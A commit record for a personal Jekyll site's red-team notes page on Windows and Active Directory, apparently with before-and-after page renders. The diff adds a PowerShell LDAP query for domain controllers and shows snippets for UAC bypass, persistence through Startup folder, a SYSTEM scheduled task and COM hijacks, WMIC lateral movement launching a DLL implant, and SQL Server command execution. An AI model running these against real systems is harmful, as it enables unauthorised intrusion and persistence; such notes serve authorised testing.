

Before and after one commit to Fil88/Fil88.github.io, a Jekyll site: the page built from offensive-notes.md, in a window 1280 px wide and 900 px high. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Update offensive-notes.md

````diff
--- a/offensive-notes.md
+++ b/offensive-notes.md
@@ -9,7 +9,33 @@ It should be useful in a lot of cases when dealing with Windows / AD exploitatio
 
 ## Enumeration
 
-# 0) PowerShell one-liners
+### 1) LDAP AD enumeration
+
+```powershell
+#Build LDAP filters to look for users with SPN values registered for current domain
+#$ldapFilter = "(&(objectclass=user)(objectcategory=user)(servicePrincipalName=*))"
+
+#Build LDAP filters to look for domain controller
+$ldapFilter = "(primaryGroupID=516)"
+
+$domain = New-Object System.DirectoryServices.DirectoryEntry
+
+$search = New-Object System.DirectoryServices.DirectorySearcher
+
+$search.SearchRoot = $domain
+$search.Filter = $ldapFilter
+$search.SearchScope = "Subtree"
+
+$results = $search.FindAll()
+
+foreach ($result in $results)
+{
+	$object = $result.GetDirectoryEntry()
+	Write-Host "Object Name = " $object.name
+}
+```
+
+## 2) PowerShell one-liners
 
 .NET reflection allows an application to obtain information about loaded assemblies and the types defined within them, then even create and invoke new instances.
 
@@ -230,9 +254,9 @@ BypassUACCommand cmd.exe "/c powershell -enc [...snip...]"
 ```
 
 
-# Persistence
+## Persistence
 
-##### 1) Classic Startup folder
+### 1) Classic Startup folder
 
 Just drop a binary in current user folder, will trigger when current user signs in:
 
@@ -245,7 +269,7 @@ Or in the startup folder, requires administrative privileges but will trigger as
 "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp"
 ```
 
-##### 2) Schedule Tasks
+### 2) Schedule Tasks
 
 This PowerShell script will execute a new Grunt (using our existing PowerShell payload) every 4 hours for up to 30 days. If you omit the RepetitionDuration option in the trigger, it will repeat indefinitely.
 
@@ -279,7 +303,7 @@ To execute this PowerShell script on the target, go to the Interact CLI, import
 schtasks /create /ru "SYSTEM" /tn "update" /tr "cmd /c c:\windows\temp\update.bat" /sc once /f /st 06:59:00
 ```
 
-##### 3) COM Hijacks
+### 3) COM Hijacks
 
 Instead of hijacking COM objects that are in-use and breaking applications that rely on them, a safer strategy is to find instances of applications trying to load objects that don't actually exist (so-called "abandoned" keys).
 
@@ -315,16 +339,16 @@ foreach ($Task in $Tasks)
 }
 ```
 
-# Lateral Movement
+## Lateral Movement
 
-##### WMIC Lateral Movement
+### 1) WMIC Lateral Movement
 
 ```cpp
 wmic /node:"192.168.1.2" process call create "C:\Perflogs\434.bat"
 WMIC /node:"DC.example.domain" process call create "rundll32 C:\PerfLogs\arti64.dll, StartW"
 ```
 
-# MSSQL databases
+## MSSQL databases
 
 PowerUpSQL can be used to look for databases within the domain, and gather further information on databases.
 
@@ -355,9 +379,9 @@ Invoke-SQLOSCmd -Instance sql-1.cyberbotic.io -Command 'dir C:\' -RawResults
 Get-SqlServerLinkCrawl -Instance dcorp-mssql | select instance,links | ft
 ```
 
-# Domain Dominance
+## Domain Dominance
 
-# Misc & Encoding
+## Misc & Encoding
 
 ##### PeZOR Packing and Encoding
 
````
Also changed, not shown: other parts of offensive-notes.md (+1 -3 lines).
